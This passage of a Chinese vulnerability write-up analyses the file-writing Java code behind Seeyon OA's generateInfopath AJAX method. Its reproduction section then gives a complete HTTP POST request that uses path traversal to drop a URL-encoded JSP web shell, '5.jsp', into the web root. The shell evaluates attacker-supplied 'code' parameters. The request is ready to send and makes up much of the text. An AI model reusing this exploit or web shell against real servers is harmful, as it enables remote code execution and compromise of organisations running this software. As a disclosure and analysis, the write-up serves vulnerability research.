 ```java
        logger.error(var13.getMessage(), var13);  
        throw new BusinessException("写入文件异常，不支持的编码：" + var13.getMessage(), var13);  
    } finally {  
        IOUtils.closeQuietly(writer);  
        IOUtils.closeQuietly(fout);  
    }  
  
}
```

`CtpLocalFile file = new CtpLocalFile(baseDir);`  创建一个目录的对象，并 if 判断 file 目录是否存在，不存在就创建新文件夹。
`CtpLocalFile destFile = new CtpLocalFile(baseDir, fileExt); ` 创建文件对象

```java
fout = new FileOutputStream(destFile);  
writer = new PrintStream(fout, false, "UTF-8");  
writer.print(content);  
writer.flush();  
```
创建一个文件输出流 `fout`，用于向目标文件写入数据。
创建一个 `PrintStream` 对象 `writer`，指定输出流和字符编码为 UTF-8。
使用 `writer.print(content)` 将内容写入文件，并使用 `writer.flush()` 确保所有内容都被写入。

![image.png](https://sydgz2-1310358933.cos.ap-guangzhou.myqcloud.com/pic/202410121456413.png)

![image.png](https://sydgz2-1310358933.cos.ap-guangzhou.myqcloud.com/pic/202410121457092.png)

成功写入文件

![image.png](https://sydgz2-1310358933.cos.ap-guangzhou.myqcloud.com/pic/202410121457308.png)

## 漏洞复现

```java
POST /seeyon/ajax.do?method=ajaxAction&managerName=cap4FormDesignManager HTTP/1.1
Accept: */*
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9,en;q=0.8,en-GB;q=0.7,en-US;q=0.6
Connection: keep-alive
Content-Length: 331
Content-Type: application/x-www-form-urlencoded;charset=UTF-8
Cookie: ts=1728653264995; JSESSIONID=EADD9E1D7E239870F85E73935AC9AD34; loginPageURL=; login_locale=zh_CN; avatarImageUrl=5995465946958220283
Host: 192.168.18.129:8085
RequestType: AJAX
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/130.0.0.0 Safari/537.36 Edg/130.0.0.0

managerMethod=generateInfopath&arguments={"files":[{"fileName":"../../../../../../ApacheJetspeed/webapps/seeyon/5.jsp","fileContent":"%3c%25%6f%75%74%2e%70%72%69%6e%74%28%6f%72%67%2e%61%70%61%63%68%65%2e%6a%61%73%70%65%72%2e%72%75%6e%74%69%6d%65%2e%50%61%67%65%43%6f%6e%74%65%78%74%49%6d%70%6c%2e%70%72%6f%70%72%69%65%74%61%72%79%45%76%61%6c%75%61%74%65%28%72%65%71%75%65%73%74%2e%67%65%74%50%61%72%61%6d%65%74%65%72%28%5c%22%63%6f%64%65%5c%22%29%2c%20%53%74%72%69%6e%67%2e%63%6c%61%73%73%2c%20%70%61%67%65%43%6f%6e%74%65%78%74%2c%20%6e%75%6c%6c%29%29%3b%25%3e"}]}
```
